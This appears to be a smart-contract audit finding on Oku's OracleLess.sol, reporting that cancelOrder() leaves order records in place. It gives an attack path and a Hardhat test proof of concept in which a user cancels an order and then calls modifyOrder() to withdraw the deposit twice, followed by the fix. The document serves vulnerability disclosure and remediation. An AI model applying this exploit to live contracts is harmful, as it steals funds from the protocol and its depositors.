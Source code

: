 Young Vanilla Pelican

High

# OracleLess.sol :: cancelOrder() users can steal funds from the contract by first canceling an order and then modifying it.

### Summary

`cancelOrder()` is used to cancel an order and return the funds to the user. The issue is that it only removes the `orderId` from the `pendingOrderIds` array, but does not delete the `orders` mapping. 

This creates a scenario where the user could receive their deposited amount twice—first by canceling the order, and then by modifying it to withdraw the deposited amount—ultimately resulting in a loss of funds for the contract.

### Root Cause

[cancelOrder()](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L74-L78) calls `_cancelOrder()`.
```solidity
function _cancelOrder(Order memory order) internal returns (bool) {
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {
            if (pendingOrderIds[i] == order.orderId) {
                //remove from pending array
                pendingOrderIds = ArrayMutation.removeFromArray(
                    i,
                    pendingOrderIds
                );

                //refund tokenIn amountIn to recipient
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);

                //emit event
                emit OrderCancelled(order.orderId);

                return true;
            }
        }
        return false;
    }
```
As you can see, it only removes the order from the `pendingOrderIds` array but does not delete the [orders](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L17) mapping. This causes an issue where a user can use the `modifyOrder` to withdraw the deposited amount again. To better understand this, let's examine the `_modifyOrder()`, which is called during this process.
```solidity
function _modifyOrder(
        uint96 orderId,
        IERC20 _tokenOut,
        uint256 amountInDelta,
        uint256 _minAmountOut,
        address _recipient,
        bool increasePosition,
        bool permit,
        bytes calldata permitPayload
    ) internal {
        //fetch order
        Order memory order = orders[orderId];

        require(msg.sender == order.recipient, "only order owner");

        //deduce any amountIn changes
        uint256 newAmountIn = order.amountIn;
        if (amountInDelta != 0) {
            if (increasePosition) {
                //take more tokens from order recipient
                newAmountIn += amountInDelta;
                procureTokens(
                    order.tokenIn,
                    amountInDelta,
                    order.recipient,
                    permit,
                    permitPayload
                );
            } else {
                //refund some tokens
                //ensure delta is valid
                require(amountInDelta < order.amountIn, "invalid delta");

                //set new amountIn for accounting
@>               newAmountIn -= amountInDelta;

                //refund position partially
                order.tokenIn.safeTransfer(order.recipient, amountInDelta);
            }
        }

        //construct new order
        Order memory newOrder = Order({
            orderId: orderId,
            tokenIn: order.tokenIn,
            tokenOut: _tokenOut,
            amountIn: newAmountIn,
            minAmountOut: _minAmountOut,
            feeBips: order.feeBips,
            recipient: _recipient
        });

        //store new order
        orders[orderId] = newOrder;
    }
```
As you can see, a user can first cancel an order and receive the deposited amount, and then call `modifyOrder()` with the canceled order's `orderId`. The `amountInDelta` is set to `amountDeposited - 1` (since `amountInDelta < order.amountIn`), and `increasePosition` is set to `false` (indicating the intention to withdraw the amount from the order). 

This works because in `_cancelOrder()`, only the order is removed from the array, but the `amountIn` is not updated in the `orders` mapping, unlike in `_modifyOrder()`. This allows the user to withdraw the deposited amount a second time.

Note: I am using `OracleLess.sol` as an example, but the same issue exists in both `StopLimit.sol` and `Bracket.sol`.

### Internal pre-conditions

None.

### External pre-conditions

User creates an order.

### Attack Path

1. The user creates an order using `createOrder()` with `amountIn = 100`.
2. The user cancels the previously created order using `cancelOrder()`, receiving the deposited amount back.
3. The user then modifies the canceled order with `amountInDelta = 99` and `increasePosition = false` using `modifyOrder()`.
4. As a result, the user's final balance becomes 100 + 99 = 199, gaining a benefit of 99 and effectively stealing from the contract.

### Impact

Users can steal tokens from the contract.

### PoC

To prove the issue copy the following POC in `failure_ORACLE_LESS.ts`.
```js
it("Malicious user can steal funds from the contract first canceling and next modifying order", async () => {

            //fund Steve
            await stealMoney(s.wethWhale, await s.Steve.getAddress(), await s.WETH.getAddress(), s.steveWeth)

            //initiaBalance of steve
            let initialBalance = await s.WETH.balanceOf(await s.Steve.getAddress())

            //fund contract
            await stealMoney(s.wethWhale, await s.OracleLess.getAddress(), await s.WETH.getAddress(), s.steveWeth)

            await s.WETH.connect(s.Steve).approve(await s.OracleLess.getAddress(), veryLargeWethAmount)
            
            //Steve create Order
            await s.OracleLess.connect(s.Steve).createOrder(
                await s.WETH.getAddress(),
                await s.USDC.getAddress(),
                s.steveWeth,
                0,
                await s.Steve.getAddress(),
                0,
                false,//no permit
                "0x"
            )

            let id1 = await s.Master.generateOrderId(await s.Steve.getAddress())
            
            //cancel order
            await s.OracleLess.connect(s.Steve).cancelOrder(id1)
            
            //Steve modify the canceled order to decrease balance and withdraw the initial deposit another time
            await s.OracleLess.connect(s.Steve).modifyOrder(id1, 
                await s.WETH.getAddress(), 
                s.steveWeth - BigInt(1), 
                s.steveWeth - BigInt(1), 
                await s.Steve.getAddress(),
                false,
                false,
                "0x"
            )

            //finalBalance of Steve
            let finalBalance = await s.WETH.balanceOf(await s.Steve.getAddress())
            
            console.log("Initial balance:", initialBalance)
            console.log("Final balance:", finalBalance)
            console.log("Amount stealed:", finalBalance - initialBalance)

            //Steve obtain the deposited amount two times
            expect(finalBalance).to.be.eq(initialBalance + s.steveWeth - BigInt(1))
        })
```
As shown in the logs, Steve successfully steals 32.9 ether.

### Mitigation

To resolve the issue in `_cancelOrder()`, delete the mapping of the canceled order.
```diff
function _cancelOrder(Order memory order) internal returns (bool) {
        for (uint96 i = 0; i < pendingOrderIds.length; i++) {
            if (pendingOrderIds[i] == order.orderId) {
                //remove from pending array
                pendingOrderIds = ArrayMutation.removeFromArray(
                    i,
                    pendingOrderIds
                );

+               delete orders[order.orderId];

                //refund tokenIn amountIn to recipient
                order.tokenIn.safeTransfer(order.recipient, order.amountIn);

                //emit event
                emit OrderCancelled(order.orderId);

                return true;
            }
        }
        return false;
    }
```
